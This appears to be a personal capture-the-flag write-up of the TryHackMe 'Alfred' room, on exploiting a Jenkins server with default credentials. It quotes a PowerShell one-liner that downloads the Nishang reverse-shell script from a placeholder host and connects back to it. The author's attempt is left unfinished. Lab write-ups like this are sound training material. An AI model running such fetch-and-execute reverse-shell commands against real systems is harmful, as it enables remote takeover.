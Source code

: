 ```yaml
---
layout: post
title: Alfred
categories: [CyberSecurity, CTF]
tags: [thm, easy, nmap, windows, Jenkins, Nishang]
---
```


[//]: # (![Basic Pentesting](./assets/alfred.png){: .right }{: w="200" h="200" })

## Walkthrough
[https://tryhackme.com/room/alfred](https://tryhackme.com/room/alfred)

**Difficulty level:** Easy

## Task 1: Initial Acess
In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it). After which, we'll use an interesting privilege escalation method to get full system access. 

Since this is a Windows application, we'll be using [Nishang](https://github.com/samratashok/nishang) to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)


### Questions

Q1. How many ports are open? (TCP only)

> "3"

Q2. What is the username and password for the login panel? (in the format username:password)

> "admin:admin"

Q3. Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port

You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: python3 -m http.server


> "No answer needed"

Q4. What is the user.txt flag? 

> ""

### MyWalk

Several tries even following several walkthroughs without success!! No connection was made on the listener. Also on discord there's some people showing problems on receiving the connection from target.  
To try again later, or following one of the latest walkthrough:

https://olivierkonate.medium.com/  alfred-tryhackme-writeup-d3dca737e0fc
